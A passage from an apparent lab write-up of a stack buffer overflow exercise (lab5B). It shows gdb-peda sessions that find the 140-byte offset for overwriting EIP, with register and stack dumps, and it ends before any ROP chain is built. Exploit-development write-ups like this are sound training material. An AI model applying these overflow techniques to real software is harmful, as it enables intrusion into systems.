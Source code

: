It seems that we need to write **149** bytes before overwriting the *EIP*.

```nasm
gdb-peda$ r < <(python -c "print('A' * 149 + 'BBBB' + 27 * 'C')")
Starting program: /levels/lab05/lab5B < <(python -c "print('A' * 149 + 'BBBB' + 27 * 'C')")
Insert ROP chain here:

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad2088
EDX: 0x80ec4e0 --> 0x0
ESI: 0x0
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6d0 ("AAAAABBBB", 'C' <repeats 27 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d0 ("AAAAABBBB", 'C' <repeats 27 times>)
0004| 0xbffff6d4 ("ABBBB", 'C' <repeats 27 times>)
0008| 0xbffff6d8 ("B", 'C' <repeats 27 times>)
0012| 0xbffff6dc ('C' <repeats 24 times>)
0016| 0xbffff6e0 ('C' <repeats 20 times>)
0020| 0xbffff6e4 ('C' <repeats 16 times>)
0024| 0xbffff6e8 ('C' <repeats 12 times>)
0028| 0xbffff6ec ("CCCCCCCC")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

Maybe not... Let's check the stack to see where our problem is.

```nasm
gdb-peda$ x/16wx $esp
0xbffff6d0: 0x41414141  0x42424241  0x43434342  0x43434343
0xbffff6e0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffff6f0: 0x43434343  0x62954500  0x9458d499  0x00000000
0xbffff700: 0x00000000  0x00000000  0x00000000  0x00000000
```

We just wrote too many bytes, we are off by **9** bytes. Let's fix this.

```nasm
gdb-peda$ r < <(python -c "print('A' * 140 + 'BBBB' + 27 * 'C')")
Starting program: /levels/lab05/lab5B < <(python -c "print('A' * 140 + 'BBBB' + 27 * 'C')")
Insert ROP chain here:

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad2088
EDX: 0x80ec4e0 --> 0x0
ESI: 0x0
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6d0 ('C' <repeats 27 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
```